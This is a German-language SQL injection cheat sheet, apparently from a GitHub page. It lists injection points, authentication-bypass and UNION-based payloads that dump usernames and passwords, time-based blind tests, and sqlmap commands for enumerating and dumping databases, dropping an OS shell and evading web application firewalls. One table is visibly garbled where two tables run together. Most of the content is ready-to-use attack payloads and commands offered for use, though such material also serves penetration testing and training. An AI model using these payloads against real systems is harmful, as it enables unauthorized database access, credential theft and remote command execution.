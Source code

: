| Befehl                                                  | Beschreibung         |
| ------------------------------------------------------- | -------------------- |
| `SELECT * FROM users`                                   | Alle Daten anzeigen  |
| `SELECT username FROM users WHERE id=1`                 | Nur bestimmte Spalte |
| `INSERT INTO users (user,pass) VALUES ('admin','1234')` | Neue Zeile einfügen  |
| `UPDATE users SET pass='newpass' WHERE user='admin'`    | Daten ändern         |
| `DELETE FROM users WHERE id=3`                          | Zeile löschen        |

Typische Injection-Punkte:
- GET-Parameter (/page.php?id=1)
- POST-Formulare
- HTTP-Headers (User-Agent, Referer, Cookie)

| Ziel                    | Payload                                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------------------- |
| Test auf Verwundbarkeit | `' OR '1'='1`                                                                                  |
| Kommentar nutzen        | `' -- ` oder `' #`                                                                             |
| Tabelle erraten         | `' UNION SELECT null, table_name FROM information_schema.tables -- `                           |
| Spalten erraten         | `' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users' -- ` |
| Dump-Daten              | `' UNION SELECT username,password FROM users -- `               _______________________________|
|                         | Technik                                                        |
| ------------------------| -------------------------------------------------------------- |
| Cookie- oder Header-SQLi| `--cookie=...` / `--headers=...`                               |
| Login-Formulare         | `--data="user=...&pass=..."`                                   |
| JSON-RPC / API          | `--data='{"id":1}' --headers="Content-Type: application/json"` |
| Auth Bypass             | `' OR 1=1 -- ` + URL fuzzing                                   |
| Blind SQLi              | `--technique=T --level=5 --risk=3 --time-sec=5`                |



curl -s "http://target.com/page.php?id=1'"
# → Fehlerseite, Serverfehler, verzögerte Antwort = pot. SQLi

' OR IF(1=1, SLEEP(5), 0) -- 
# → Verzögerung = Erfolg


sqlmap -u "http://target.com/page.php?id=1" --batch
| Zweck                   | Befehl                                     |
| ----------------------- | ------------------------------------------ |
| Datenbanknamen anzeigen | `--dbs`                                    |
| Tabellen anzeigen       | `-D <db> --tables`                         |
| Spalten anzeigen        | `-D <db> -T <table> --columns`             |
| Daten extrahieren       | `-D <db> -T <table> -C <col1,col2> --dump` |

| Option               | Bedeutung                              |
| -------------------- | -------------------------------------- |
| `--batch`            | Automatische Antworten (keine Prompts) |
| `--cookie`           | Manuelle Session nutzen                |
| `--data`             | POST-Daten übergeben                   |
| `--level=N`          | Scan-Tiefe (1–5, default: 1)           |
| `--risk=N`           | Risiko-Level (1–3, default: 1)         |
| `--random-agent`     | User-Agent rotieren                    |
| `--technique=BEUSTQ` | Techniken definieren                   |
| `--os-shell`         | Remote Shell droppen (wenn möglich)    |
| `--threads=10`       | Parallelisierung                       |


**📦 POST/JSON/Custom Header Beispiel**
sqlmap -u "http://target.com/login" \
--data="user=admin&pass=123" \
--cookie="PHPSESSID=..." \
--headers="X-Forwarded-For: 127.0.0.1" \
--batch --dump

sqlmap -u "http://target/api" --data '{"id":"1"}' --batch --headers="Content-Type: application/json"


' OR 1=1 --
' OR 'a'='a
admin' -- 


# WAF-Bypass & Obfuscation
sqlmap -u ... --tamper=between,charencode,space2comment
--list-tampers


| Fehler                | Ursache / Lösung                                                   |
| --------------------- | ------------------------------------------------------------------ |
| 403 Forbidden         | WAF → Header faken, `--random-agent`, Proxy nutzen                 |
| Kein Output           | Level/Risk erhöhen (`--level=5 --risk=3`)                          |
| SQLmap erkennt nichts | Manuell testen, Payload anpassen                                   |
| Keine Shell           | DB hat keinen Out-of-Band-Zugriff (z. B. MySQL ohne `xp_cmdshell`) |



| Tool             | Funktion                              |
| ---------------- | ------------------------------------- |
| **sqlmap**       | Automatisierung                       |
| **Burp Suite**   | Manuelles Fuzzing, Intercept          |
| **ffuf / wfuzz** | Param-Fuzzing (z. B. hidden GET/POST) |
| **sqlninja**     | MSSQL-focused Exploits                |
| **NoSQLMap**     | MongoDB-Injection Exploits            |
